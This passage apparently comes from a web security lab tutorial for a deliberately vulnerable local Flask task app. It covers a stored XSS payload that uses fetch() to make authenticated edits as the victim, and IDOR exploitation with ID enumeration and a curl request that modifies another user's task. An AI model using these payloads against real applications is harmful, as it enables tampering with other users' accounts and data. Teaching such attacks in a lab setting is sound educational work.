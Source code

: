 ### Bonus: Using XSS to perform actions

Because the session cookie is automatically sent by the browser, your script can make **authenticated** requests even if the cookie is `HttpOnly`.

Try editing your own task title via XHR/fetch from XSS:

```html
<script>
fetch('/edit/1', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded'},
  body: 'title=HACKED+by+XSS'
});
</script>
```

> Replace `1` with the actual task ID of **your** task. This demonstrates how XSS lets an attacker act as the victim.

---

## 2) IDOR / Broken Access Control on Edit, Delete, Toggle

**Vulnerability:** The routes `/edit/<id>`, `/delete/<id>`, `/toggle/<id>` do **not** verify that the task belongs to the logged‑in user.

### Prepare

* Create **User A** and add a task.
* Log out, create **User B** and add a task.
* Note: Task IDs are global auto‑increment integers across all users.

### Find valid task IDs

1. While logged in as **User A**, try to open ids you don’t own using the edit page:

   * Visit: `http://127.0.0.1:5000/edit/1`, `/edit/2`, `/edit/3`, … until you **don’t** see “Task not found” and instead see the **Edit task** form for a task that isn’t yours.
   * This confirms the ID exists and is accessible.

### Exploit: Edit someone else’s task (horizontal privilege escalation)

* Using the edit form you just opened, change the title and save. You’ve modified another user’s task.

**cURL version (replace `42` with the victim’s task id):**

```bash
curl -i -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -b 'session=<YOUR_FLASK_SESSION_COOKIE>' \
  --data 'title=Owned+by+User+A' \
  http://127.0.0.1:5000/edit/42
```
